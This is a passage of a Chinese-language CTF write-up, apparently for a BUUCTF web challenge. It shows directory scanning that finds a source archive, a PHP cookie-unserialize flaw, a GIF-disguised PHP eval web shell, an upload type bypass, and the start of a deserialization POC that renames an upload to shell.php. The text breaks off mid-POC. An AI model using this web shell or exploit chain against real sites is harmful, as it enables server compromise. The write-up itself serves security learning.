 最终使用命令和结果显示
```sh
$ ./dirsearch.py -u http://16137a97-71f1-40c5-81a0-a51295133c93.node5.buuoj.cn:81 -e "*" --delay 0.1 -t 1 -i 200,403

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions:  | HTTP method: GET | Threads: 1 | Wordlist size: 9119

Target: http://16137a97-71f1-40c5-81a0-a51295133c93.node5.buuoj.cn:81/

[14:56:19] Scanning: 
[14:58:21] 200 -   216B - /.htaccess
[15:13:50] 200 -    1KB - /favicon.ico
[15:23:23] 200 -    24B - /robots.txt
[15:27:15] 200 -   287B - /upload/
[15:29:49] 200 -   24MB - /www.tar.gz

Task Completed
```
直接在浏览器地址栏输入`http://16137a97-71f1-40c5-81a0-a51295133c93.node5.buuoj.cn:81/www.tar.gz`即可下载文件。

文件代码中搜索`upload`可以定位到Register.php和Profile.php两个主要文件。

index.php中显示登录会反序列化cookie
```php
    public function login_check(){
        $profile=cookie('user');
        if(!empty($profile)){
            $this->profile=unserialize(base64_decode($profile));
            $this->profile_db=db('user')->where("ID",intval($this->profile['ID']))->find();
            if(array_diff($this->profile_db,$this->profile)==null){
                return 1;
            }else{
                return 0;
            }
        }
    }
```

图片马GIF头0xGIF89a
```sh
GIF89a
<?php @eval($_POST['cmd']);?>

# 或
<script language="php">eval($_POST['cmd']);</script>
```
或者上传空文件后在Content-Type: 后面修改类型后再加文件内容也可以。

upload.php即POC
```php
<?php
namespace app\web\controller;

class Profile
{
    public $checker = 0;
    public $filename_tmp = "./upload/e0cd7c28b74327b3bd1472378bdfbfa2/2fffb588e7310cb65c09fd2e21a0e834.png";
    public $filename = "./upload/e0cd7c28b74327b3bd1472378bdfbfa2/shell.php";
    public $ext = 1;
    public $except = array('index'=>'upload_img');
}

class Register
```